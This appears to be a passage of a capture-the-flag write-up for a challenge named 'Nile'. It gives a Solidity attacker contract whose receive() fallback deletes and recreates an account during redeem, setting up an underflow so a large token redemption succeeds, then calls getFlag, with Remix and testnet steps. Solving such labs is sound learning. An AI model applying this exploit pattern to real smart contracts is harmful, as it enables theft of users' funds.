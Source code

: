 ```Solidity

    function flag() public {
        (bool result, ) = address(nile).call(abi.encodeWithSignature("getFlag(bytes32)",0x8f9154156d73b0fcda140cb2b7b6ddf900000000000000000000000000000000));
        require(result, "Call has failed");
    }

    function account() public {
        (bool result, ) = address(nile).call(abi.encodeWithSignature("createAccount()",""));
        require(result, "Call has failed");
    }

    function bigRedeem() public {
        (bool result, ) = address(nile).call(abi.encodeWithSignature("redeem(uint256)",9999));
        require(result, "Call has failed");
    }

    receive() external payable {
        (bool result, ) = address(nile).call(abi.encodeWithSignature("deleteAccount()",""));
        require(result, "Call has failed");
        (bool result2, ) = address(nile).call(abi.encodeWithSignature("createEmptyAccount()",""));
        require(result2, "Call has failed");
    }
}
```
Details about the code I used can be found in the Code section.
The order of the functions to be called is as follows:

0. The constructor calls the address of the Nile contract that is on the blockchain network, which should be done when the smart contract is deployed.
1. `account()` to create an account. 
2. `underflow()` calls `redeem(99)` which will call the fallback function. The fallback function is `receive() external payable` which calls `deleteAccount()` and `createEmptyAccount()`. 
3. `bigRedeem()` is called after the underflow, redeeming 9999 tokens. 
4. `flag()` which calls `getFlag()` with the token given from the netcat. The token has to be padded right to reach 32 bytes since `getFlag()` only accepts `bytes32`. 

After calling `getFlag()` with the token given by the netcat, return to the terminal, type `y`, and get the flag. 

### How to Run This (Remix & Metamask)
1. Set up a crypto wallet (I used Metamask plugin). 
2. Use a Goerli faucet ([here](https://goerlifaucet.com) or [here](https://goerli-faucet.pk910.de)) to give yourself some ~~fake~~ Eth.
3. Import contract Thing. Compile it. 
4. To test the code on VM servers:  
	1. Import the Nile smart contract. 
	2. Deploy the Nile smart contract to a VM server and copy its local address (which can be found under "Deployed Contracts"):
	![[Copy Local Address](./Copy Local Address.png)](https://github.com/Sinkasha/buckeyeCTF2022-writeups/blob/71ee17fbd5fa28572eeacf7df20614d7dbefbe17/Nile/Copy%20Local%20Address.png)
	3. Paste the local address into the constructor in contract Thing. 
	4. Deploy Thing, run the functions. Check that each function call on Thing emits an event in logs (more on this in the Code section) and that each function call has a green checkmark, as shown below. 